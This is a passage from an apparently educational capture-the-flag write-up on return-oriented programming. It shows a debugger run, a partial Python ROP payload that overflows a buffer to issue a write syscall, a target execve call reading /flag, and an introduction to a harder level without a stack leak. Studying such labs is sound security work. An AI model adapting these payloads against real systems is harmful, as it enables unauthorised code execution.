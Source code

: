 ```bash
$ python level4.py GDB
#...
# In GDB window
pwndbg> c
Continuing.
[Inferior 1 (process 55051) exited with code 04]
pwndbg> 

```

Success — we’ve just demonstrated a clean syscall to `exit(4)`! This confirms that we have full control over registers and can safely issue raw syscalls from our ROP chain.

With this in place, we’re now ready to call more complex syscalls like:

```c
execve("/bin/cat", ["/bin/cat", "/flag", NULL], NULL);
```

Of course I won’t spoil the full exploit — but here’s a small glimpse of how we use a syscall like `write()` in our ROP chain. With minor tweaks, the same technique applies to `execve()` or other syscalls:

```python
payload = b'A' * offset
payload += p64(pop_rax) + p64(1)        # write syscall number
payload += p64(pop_rdi) + p64(1)        # stdout
payload += p64(pop_rsi) + p64(buf_addr) # buffer containing data
payload += p64(pop_rdx) + p64(10)       # number of bytes to write
payload += p64(syscall)
```

Well, you filled the start of your buffer with `'A' * offset`. So when `rsi = buf_addr`, and you request `write(1, buf_addr, 10)`, you’re printing the first **10 `'A'` characters** from the stack.

```bash
Leaving!
AAAAAAAAAA[*] Got EOF while reading in interactive

```

With this, you’ve successfully learned how to invoke **Linux syscalls using ROP**

All the best for the rest of the challenge — and happy pwning!


## Level 5.0

Craft a ROP chain to obtain the flag, now with no stack leak!

When you run the binary, you’ll notice something different this time:

- There is **no helpful `[LEAK]` line** printing the stack address.
- ASLR is **still enabled**, meaning the stack address is **randomized** every time.    
- You're still allowed to overflow the buffer and control the return address — but you now **cannot reference data on the stack**, since you don't know where it lives.
